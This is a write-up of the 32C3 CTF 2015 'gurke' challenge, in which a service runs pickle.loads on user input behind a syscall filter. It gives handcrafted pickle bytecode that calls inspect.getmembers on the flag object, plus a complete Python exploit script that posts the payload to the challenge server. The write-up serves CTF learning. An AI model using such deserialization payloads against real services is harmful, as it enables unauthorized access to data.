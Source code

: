 # 32C3 CTF 2015 : gurke

**Category:** Misc
**Points:** 300
**Solves:** 106
**Description:**

> Non-standard [gurke](./gurke): <https://32c3ctf.ccc.ac/uploads/[gurke](./gurke)> Talk to it via HTTP on <http://136.243.194.43/.>


## Write-up

"It's not a standard gurke" is quite accurate.
First it creates a flag object, which contains the flag in the "flag" attribute.
Then it establishes a syscall-filter which is quite restrictive.
Finally it does what we were looking for: A pickle.load with user supplied data:

    data = os.read(0, 4096)
    try:
      res = pickle.loads(data)
      print 'res: %r\n' % res
    except Exception as e:
      print >>sys.stderr, "exception", repr(e)


However the syscall-filter prevents us from suppling a pickled object with a malicious
__reduce__ function, instead we have to get hold of the "flag" object's flag attribute.

Therefore we have to write a little pickle bytecode:

    cinspect\ngetmembers\n(c__main__\nflag\ntR.\n

Which is based on the opcode overview found here:
http://svn.python.org/projects/python/trunk/Lib/pickle.py

The pickle interpreter works stack-based and the code above does the following (pseudocode):

    push inspect.getmembers
    push __main__.flag
    pop func
    pop arg
    push (func, arg)
    call func(arg)
    ret

Which basically calls inspect.getmembers(flag).
The output will include the flag attribute and it's value.

The complete exploit:

    import urllib, urllib2
    import re
    url = 'http://136.243.194.43/'
    # pickle bytecode
    # c:module:function pushes object on the stack
    # (: push mark object
    # t:  pop two top most stack elements + create tuple of them + push tuple
    # R: call callable top most stack element
    # .: rerturn
    req = urllib2.Request(url, data="cinspect\ngetmembers\n(c__main__\nflag\ntR.\n", headers={'Content-type': 'application/python-pickle'})
    response = urllib2.urlopen(req)
    the_page = response.read()
    flag = re.findall("32c3_.{25}", the_page)[0]
    print "flag: " + flag


## Other write-ups and resources

* <https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version>
* <http://blukat29.github.io/2015/12/32c3ctf-gurke/>
* <https://github.com/krx/CTF-Writeups/tree/master/32C3%202015/misc300%20-%20gurke>
* <http://nopat.ch/2015/12/29/32c3ctf-misc-gurke/>
* <http://katc.hateblo.jp/entry/2015/12/30/154329>
* <http://pastebin.com/JikU89uJ>
